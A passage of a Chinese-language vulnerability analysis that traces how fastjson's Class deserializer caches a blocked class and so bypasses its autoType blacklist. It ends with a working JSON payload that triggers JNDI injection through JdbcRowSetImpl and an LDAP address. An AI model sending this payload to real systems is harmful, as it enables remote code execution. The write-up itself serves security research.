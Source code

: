 ![](https://oss.javasec.org/images/1616548832213.png)

如果 `parser.resolveStatus` 为`TypeNameRedirect` 时，进入 if 语句，会解析 “val” 中的内容放入 objVal 中，然后传入 strVal 中。

![](https://oss.javasec.org/images/1616549216642.png)

后面的逻辑如果 class 是 `Class.class` 时，将会调用 `loadClass` 方法，将 strVal 进行类加载并缓存：

![](https://oss.javasec.org/images/1616548937936.png)

这就完成了恶意类的加载，组成了我们所有的恶意调用链。但是如何在第二步进入 if 语句呢？这中间的调用链是什么样的呢？我们先构造一个 json ：`{"@type":"java.lang.Class","val":"aaaaa"}` ，调试一下：

`JSON.parseObject()` 调用 `DefaultJSONParser` 对 JSON 进行解析。

![](https://oss.javasec.org/images/1616551479274.png)

`DefaultJSONParser.parseObject()` 调用 `checkAutoType()` 检查待加载类的合法性。

![](https://oss.javasec.org/images/1616551465173.png)

由于 deserializers 在初始化时将  `Class.class` 进行了加载，因此使用 findClass 可以找到，越过了后面 AutoTypeSupport 的检查。

![](https://oss.javasec.org/images/1616551453453.png)

`DefaultJSONParser.parseObject()` 设置 resolveStatus 为 TypeNameRedirect。

![](https://oss.javasec.org/images/1616551442803.png)

`DefaultJSONParser.parseObject()` 根据不同的 class 类型分配 deserialzer，Class 类型由 `MiscCodec.deserialze()` 处理。

![](https://oss.javasec.org/images/1616551434486.png)

解析 json 中 “val” 中的内容，并放入 objVal 中，如果不是 "val" 将会报错。

![](https://oss.javasec.org/images/1616551427835.png)

传递至 strVal 并使用 `loadClass` 加载并缓存。

![](https://oss.javasec.org/images/1616551420168.png)

此时恶意的 val 成功被我们加载到 mappings 中，再次以恶意类进行 `@type` 请求时即可绕过黑名单进行的阻拦，因此最终 payload 为：
```json
{
	"su18": {
		"@type": "java.lang.Class",
		"val": "com.sun.rowset.JdbcRowSetImpl"
	},
	"su19": {
		"@type": "com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName": "ldap://127.0.0.1:23457/Command8",
		"autoCommit": true
	}
}
```

